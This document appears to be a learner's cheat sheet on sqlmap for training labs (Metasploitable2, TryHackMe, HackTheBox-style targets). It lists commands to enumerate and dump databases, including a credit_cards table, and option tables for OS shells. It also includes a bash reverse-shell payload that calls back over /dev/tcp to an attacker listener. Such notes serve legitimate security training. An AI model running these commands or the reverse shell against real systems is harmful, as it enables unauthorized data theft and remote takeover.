

Sqlmap
SQLmap is an open-source tool used in penetration testing to detect and exploit SQL
injection flaws. SQLmap automates the process of detecting and exploiting SQL
injection. SQL Injection attacks can take control of databases that utilize SQL.
The sqlmap comes pre-installed with Parrot OS & Kali Linux, however, you can install it through the
repository if you don't have it:
sudo apt install sqlmap

We will provide the URL & the cookie to the sqlmap in order for it to find vulnerability. The reason why we
have to provide a cookie is because of authentication:
To grab the cookie, we can intercept any request in Burp Suite & get it from there, OR you can install a
great extension for your web browser called cookie-editor :
The cookies in HTTP messages of requests are usually set the following way: [Found from cookie editor]
PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1
Knowing that, here's how our sqlmap syntax should look:
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1"

Note: We got the shell in sqlmap, however, it is not very stable & interactive. To make it much stable, we will use the
following payload:
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
This method is used to bring sqlmap shell into our netcat listener.
Using Metaploitable2:::::
Enumeration-Choose options wisely
sqlmap -u "http://10.10.10.104/mutillidae/index.php?page=user-info.php&username=admin&password=123123&user-info-php-submit-button=View+Account+Details"
To get all Databases:
sqlmap -u "http://10.10.10.104/mutillidae/index.php?page=user-info.php&username=admin&password=123123&user-info-php-submit-button=View+Account+Details" --dbs
To get all Tables of a Database(owasp10):
sqlmap -u "http://10.10.10.104/mutillidae/index.php?page=user-info.php&username=admin&password=123123&user-info-php-submit-button=View+Account+Details" --tables -D oswasp10
To get all columns of a table (credit_cards) from database (owasp10):
sqlmap -u "http://10.10.10.104/mutillidae/index.php?page=user-info.php&username=admin&password=123123&user-info-php-submit-button=View+Account+Details" --columns -T credit_cards -D owasp10
To dump all data of a table:
sqlmap -u "http://10.10.10.104/mutillidae/index.php?page=user-info.php&username=admin&password=123123&user-info-php-submit-button=View+Account+Details" -T credit_cards -D owasp10 --dump
Example of gaming website THM:
sqlmap -r request.txt --dbms=mysql --dump
Where request.txt is a GET request captured by burpsuite for a “test” search querry.
SQLMAP Room THM:
https://github.com/sqlmapproject/sqlmap
sqlmap -h : To list help with most common commands
sqlmap -hh : To list advanced help with all commands
Basic Commands:
| Options | Description |
|---|---|
| -u URL, --url=URL | Target URL (e.g. "http://www.site.com/vuln.php?id=1") |
| --data=DATA | Data string to be sent through POST (e.g. "id=1") |
| --random-agent | Use randomly selected HTTP User-Agent header value |
| -p TESTPARAMETER | Testable parameter(s) |
| --level=LEVEL | Level of tests to perform (1-5, default 1) |
| --risk=RISK | Risk of tests to perform (1-3, default 1) |
Enumeration Commands:
These options can be used to enumerate the back-end database management system information, structure, and data contained in tables.
| Options | Description |
|---|---|
| -a, --all | Retrieve everything |
| -b, --banner | Retrieve DBMS banner |
| --current-user | Retrieve DBMS current user |
| --current-db | Retrieve DBMS current database |
| --passwords | Enumerate DBMS users password hashes |
| --dbs | Enumerate DBMS databases |
| --tables | Enumerate DBMS database tables |
| --columns | Enumerate DBMS database table columns |
| --schema | Enumerate DBMS schema |
| --dump | Dump DBMS database table entries |
| --dump-all | Dump all DBMS databases tables entries |
| --is-dba | Detect if the DBMS current user is DBA |
| -D <DB NAME> | DBMS database to enumerate |
| -T <TABLE NAME> | DBMS database table(s) to enumerate |
| -C COL | DBMS database table column(s) to enumerate |
Operating System Access Commands:
These options can be used to access the back-end database management system on the target operating system.
| Options | Description |
|---|---|
| --os-shell | Prompt for an interactive operating system shell |
| --os-pwn | Prompt for an OOB shell, Meterpreter or VNC |
| --os-cmd=OSCMD | Execute an operating system command |
| --priv-esc | Database process user privilege escalation |
| --os-smbrelay | One-click prompt for an OOB shell, Meterpreter or VNC |
Simple HTTP GET Based Test
Format:
sqlmap -u https://testsite.com/page.php?id=7 --dbs
Simple HTTP POST Based Test
We copy the POST request to a file. (From Burpsuite copy to file or selecting the entire text in Burpsuite and copy it to a file. (say req.txt)
Note: In case of post request we need to find the vulnerable payload location.
Eg. blood_group=A
Format:
sqlmap -r <request_file> -p <vulnerable_parameter> --dbs
sqlmap -r req.txt -p blood_group --dbs
Note: --dbs is used to enumerate the database. It will list all databases.
Then we can continue enumerating as follows (Enumerating Tables):
Using GET based Method
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables
sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables
Using POST based Method
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
sqlmap -r req.txt -p blood_group -D blood --tables
Then we can continue enumerating as follows (Enumerating Columns):
Using GET based Method
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns
sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns
Using POST based Method
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> -T <table_name> --columns
sqlmap -r req.txt -p blood_group -D blood -T blood_db --columns
Note: Here -p switch can be ignored becasue, sqlmap will resume from previous calls. (Else it is required in POST method during initial call)
Finally to Dump the entire database:
Using GET based Method
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all
sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all
Using POST based Method
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --dump-all
sqlmap -r req.txt -p blood_group -D blood --dump-all